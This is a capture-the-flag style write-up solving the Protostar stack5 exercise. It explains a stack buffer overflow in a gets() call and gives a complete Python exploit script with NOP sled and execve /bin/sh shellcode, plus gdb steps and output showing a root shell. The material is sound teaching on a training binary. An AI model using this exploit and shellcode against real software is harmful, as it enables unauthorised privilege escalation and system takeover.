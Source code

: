 # Stack5 Solution

## C Code

Stack5 is a standard buffer overflow, this time introducing shellcode.

This level is at /opt/protostar/bin/stack5

Hints

* At this point in time, it might be easier to use someone elses shellcode
* If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
remove the int3s once your shellcode is done.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Vulnerability

Ok, so now we have some *very* minimal C code with just a `char buffer[64]` and `get(buffer)`. From this, we need to get a **root shell**.
You may be thinking, *how do we do that*. The answer lies in **executing shellcode put on the stack** by abusing `gets()`. Let me explain.

You know how we can **edit the stack** by using a **buffer overflow**? We can also **put values on the stack** and if **EIP points to it**,
the stack value(s) *will* **execute**. This is preventable by using a system called **NX**, which stands no **No-Execution**. This system
**prevents stack values from being executed**, which is useful to prevent this style of attack.

Now that we know that **the stack is executable**, can we **put shellcode on the stack, then execute** it by **overwriting the return
address to point to that shellcode**? **Yes, we can**! So let's do it!

First, we need to **make sure that the shellcode is always executed**. To do that, we use something called a **NOP sled**. A `nop`
instruction basically just **moves to the next instruction**. So we can place a **bunch of NOPs above our shellcode** (shellcode is the code
needed to create a shell) and then we basically have some **room for error**, since we could return **anywhere inside of the NOP sled** and
still execute our shellcode.

**So let's exploit!**

## Exploit

First, let's **reuse** the **padding** from [stack4](https://github.com/Naksh-Rathore/protostar-solutions/tree/main/stack4/) so we do not have to check what the padding is *again*.

We first need the **return address's** memory address to use as a estimate of the NOP sled address, since we will be putting the NOP sled
**right after** the return address.

```bash
(gdb) break *main+22
(gdb) r
QQQQWWWWEEEERRRRTTTTYYYYUUUUIIIIOOOOPPPPAAAASSSSDDDDFFFFGGGGHHHHJJJJKKKKLLLLZZZZXXXXCCCCVVVVBBBBNNNNMMMM

SIGSEV - Segmentation Fault
```

Now, since **the next thing on the stack is the memory address, let's get ESP**, since that will point to the return address.

```bash
(gdb) p $esp
$1 = (void *) 0xbffff7d0
```

Now that we know **the memory address** of the return address, we can make the return address point to **it's memory address + ~30 bytes** to reach the middle of the NOP sled.

But now we need **shellcode**. Let's use the **32 bit execve** `/bin/sh` **shellcode** from **ShellStorm**. I have linked it in the resources section. 

Here is our **payload layout**:

```
[ 72 bytes of padding ]
[ 4 bytes to overwrite EBP ]
[ 4 bytes to overwrite return address ]
[ NOP sled containing 100 NOPs ]
[ Shellcode ]
```

Ok, so let's build the exploit script:

```python
import struct

padding = "A" * 72
ebp = "LLLL"
ret_addr = struct.pack("I", 0xbffff7d0 + 30)
shellcode = (
        "\x31\xc0\x50\x68\x2f\x2f\x73"
        "\x68\x68\x2f\x62\x69\x6e\x89"
        "\xe3\x89\xc1\x89\xc2\xb0\x0b"
        "\xcd\x80\x31\xc0\x40\xcd\x80"
)
nop_sled = "\x90" * 100

print(padding + ebp + ret_addr + nop_sled + shellcode)
```

To **properly run**, we need to redirect the stdin to stdout with the `cat` command.

Result:

```bash
$ (python /tmp/exploit.py; cat) | /opt/protostar/bin/stack5
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAALLLL????????????????????????????????????????????????????????????????????????????????????????????????????????1?Ph//shh/bin????°
                                      ̀1?@̀

whoami
root
```

## Resources

* [C Code](https://exploit.education/protostar/stack-five/)
* [/bin/sh ShellCode from ShellStorm](https://shell-storm.org/shellcode/files/shellcode-811.html)
* [LiveOverflow's Solution on YouTube](https://www.youtube.com/watch?v=HSlhY4Uy8SA)
* [Wikipedia Article on the NX Bit](https://en.wikipedia.org/wiki/NX_bit)




